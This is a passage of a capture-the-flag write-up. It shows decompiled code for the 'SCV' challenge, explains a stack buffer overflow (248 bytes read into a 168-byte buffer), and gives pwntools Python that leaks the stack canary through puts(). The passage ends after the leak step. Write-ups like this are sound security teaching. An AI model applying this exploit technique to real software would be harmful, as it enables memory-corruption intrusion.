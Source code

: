 ```c
      <<ret = std::operator<<((basic_ostream *)std::cout,"[*]BYE ~ TIME TO MINE MIENRALS...");
      std::basic_ostream<>::operator<<((basic_ostream<> *)<<ret,std::endl<>);
    }
    else if (menu_choice == 1) {
      <<ret = std::operator<<((basic_ostream *)std::cout,"-------------------------");
      std::basic_ostream<>::operator<<((basic_ostream<> *)<<ret,std::endl<>);
      <<ret = std::operator<<((basic_ostream *)std::cout,"[*]SCV IS ALWAYS HUNGRY.....");
      std::basic_ostream<>::operator<<((basic_ostream<> *)<<ret,std::endl<>);
      <<ret = std::operator<<((basic_ostream *)std::cout,"-------------------------");
      std::basic_ostream<>::operator<<((basic_ostream<> *)<<ret,std::endl<>);
      <<ret = std::operator<<((basic_ostream *)std::cout,"[*]GIVE HIM SOME FOOD.......");
      std::basic_ostream<>::operator<<((basic_ostream<> *)<<ret,std::endl<>);
      <<ret = std::operator<<((basic_ostream *)std::cout,"-------------------------");
      std::basic_ostream<>::operator<<((basic_ostream<> *)<<ret,std::endl<>);
      std::operator<<((basic_ostream *)std::cout,">>");
      sVar1 = read(0,input_buf,0xf8);
      local_bc = (undefined4)sVar1;
    }
    else {
      <<ret = std::operator<<((basic_ostream *)std::cout,"[*]DO NOT HURT MY SCV....");
      std::basic_ostream<>::operator<<((basic_ostream<> *)<<ret,std::endl<>);
    }
  }
  if (stack_canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
A couple things to note. First of all ... C++ is gross.  
Notice how the menu choice that reads in reads 248 bytes into the buffer of length 168. There is a buffer overflow there.  
Also, notice how we won't return until we select option 3. This allows us to selectively choose when to trigger the return.  

Now, before we even think of exploiting this buffer overflow we have to find a way of dealing with this stack canary.  
Looking at the Stack Layout we see the following:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/1bdb22d7-81f8-437e-bb85-9ee681def82c)  
The stack canary and the input buffer are contiguous in memory.  
Since menu option 2 will use `puts()` to print our input buffer we can abuse that to leak the canary.  
C strings are terminated by a null byte. Thus, functions like `puts()` print character by character until they reach a null byte.  
Since the last first character (little endian) of the canary is always a null byte, we can overwrite that null byte and `puts()` will print the rest of the canary.  

## Exploitation  
First things first we leak the canary using the technique described above. Here it is important to use `send()` instead of `sendline()` because we don't want the `\n` to overwrite any canary bits.  
```python
io.sendline(b'1')
io.send(buffer_len*b'A' + b'X')

sleep(0.1)
io.sendline(b'2')
io.recvuntil(b'X')

canary = int.from_bytes(b'\x00'+ io.recv(7),'little')
log.success("canary is "+hex(canary))
```
